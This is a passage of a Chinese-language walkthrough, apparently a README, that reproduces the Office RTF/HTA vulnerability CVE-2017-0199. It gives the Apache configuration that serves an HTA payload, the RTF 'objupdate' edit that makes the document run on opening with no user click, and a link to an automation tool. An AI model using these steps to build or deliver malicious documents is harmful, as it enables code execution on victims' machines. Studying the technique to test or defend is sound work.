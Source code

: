```
cp poc.hta test/1.rtf
vim /etc/apache2/apache2.conf
```

修改apache2的配置文件，增加2行配置（"Dav on" 在第一步的时候就可以配置，不影响；关键是Content-Type的设置）

```
<Directory />
        Options FollowSymLinks
        AllowOverride None
        Require all denied
        Dav on
</Directory>

<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Content-Type "application/hta"
</Directory>
```

![Apache_config](img/CVE-2017-0199/Apache_config1.png)

修改为如上配置后重启apache2服务 `service apache2 restart`先通过burp抓包验证一下，必须保证Content-Type是application/hta。

![HTA_response](img/CVE-2017-0199/HTA_response.png)



这个时候打开poc.docx验证一下，弹出提示框的时候，点击“是”将成功弹出计算器。

![success](img/CVE-2017-0199/success.png)



### 第三步：无需要交互、自动运行

如上一步所示，需要用户确认，运行进行链接更新才可以触发poc，那么如何实现无需确认自动更新呢？

这需要利用到rtf文档的一个特性，我们先将poc.docx另存为poc.rtf，然后使用notepad++打开，在其中找到`{\object\objautlink\rsltpict`然后将其替换为`{\object\objautlink\objupdate\rsltpict\`,保存。

```
{\object\objautlink\rsltpict
{\object\objautlink\objupdate\rsltpict
```

objupdate参数的作用就是无需用户确认，在打开文档的时候就进行链接的更新操作。

我们再打开poc.rtf来验证一下，打开即运行了，无需用户交互点击。![rtf_success](img/CVE-2017-0199/rtf_success.png)

### 第四步：程序自动化实现以上步骤

github上已经有成熟的工具 https://github.com/bhdresh/CVE-2017-0199


